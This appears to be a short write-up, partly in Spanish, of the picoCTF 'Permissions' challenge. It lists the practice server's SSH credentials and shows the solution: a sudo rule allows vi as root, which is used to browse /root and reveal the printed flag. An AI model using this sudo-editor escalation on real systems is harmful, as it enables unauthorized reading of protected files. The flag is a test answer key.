 ## Permissions
### Description 

Can you read files in the root file?The system admin has provisioned an account for you on the main server:`ssh -p 57922 picoplayer@saturn.picoctf.net`Password: `UYiOazkqY2`Can you login and read the root file?
### Hint

- What permissions do you have?

## Solución 
```
picoplayer@challenge:/$ sudo -l
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
picoplayer@challenge:/$ sudo vi /root
" ============================================================================
" Netrw Directory Listing                                        (netrw v165)
"   /root
"   Sorted by      name
"   Sort sequence: [\/]$,\<core\%(\.\d\+\)\=\>,\.h$,\.c$,\.cpp$,\~\=\*$,*,\.o$,\.obj$,\.info$,\.swp$,\.bak$,\~$
"   Quick Help: <F1>:help  -:go up dir  D:delete  R:rename  s:sort-by  x:special
" ==============================================================================
../                                                                                                                                                                                                                
./
.vim/
.bashrc
.flag.txt  <---- nuestra bandera
.profile
.viminfo
.flag.txt.swp
~  


picoCTF{uS1ng_v1m_3dit0r_89e9cf1a}
```
